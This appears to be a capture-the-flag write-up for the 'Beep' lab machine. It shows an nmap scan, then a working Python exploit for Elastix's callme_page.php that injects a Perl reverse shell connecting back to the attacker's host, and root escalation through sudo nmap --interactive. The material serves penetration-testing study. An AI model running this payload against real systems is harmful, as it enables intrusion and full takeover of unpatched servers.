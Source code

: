 
## Machine Info

- Name: 
- Description: 
- Difficulty:

## Initial Access

Nmap:

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING USER UIDL RESP-CODES LOGIN-DELAY(0) APOP EXPIRE(NEVER) TOP AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            792/udp   status
|_  100024  1            795/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed X-NETSCAPE UIDPLUS ID IMAP4 UNSELECT THREAD=REFERENCES NO CHILDREN OK SORT URLAUTHA0001 IMAP4rev1 ANNOTATEMORE STARTTLS NAMESPACE LIST-SUBSCRIBED LISTEXT IDLE CONDSTORE MAILBOX-REFERRALS CATENATE RENAME THREAD=ORDEREDSUBJECT SORT=MODSEQ RIGHTS=kxte QUOTA MULTIAPPEND ACL LITERAL+ BINARY ATOMIC
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
|_ssl-date: 2024-01-18T19:52:22+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
795/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```

At this point I'll look through the easiest ports to enumerate first before getting overwhelmed with al these services.

### Port 80 - 443

Checking this port I can see elastix is running, doing a quick serachsploit yeilds with some vulnerabilities:

![[Pasted image 20240118150625.png]]

![[Pasted image 20240118150635.png]]

I found this python script:

```python
import urllib2
import ssl

rhost="10.10.10.7"
lhost="10.10.14.14"
lport=4444
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

running it yields a reverse shell:

![[Pasted image 20240118154029.png]]
## Privilege Escalation

For privilege escalation I can do the normal recon, I started with sudo privileges:

```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

I can run nmap as root, so I can privilege escalate simply:

```bash
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2#
```


## Beyond Root

This box was quite simple, just outdated software, I highly recommend updating the software. Nmap being there doesn't change anything as it wouldn't be accessible if the software was up to date. 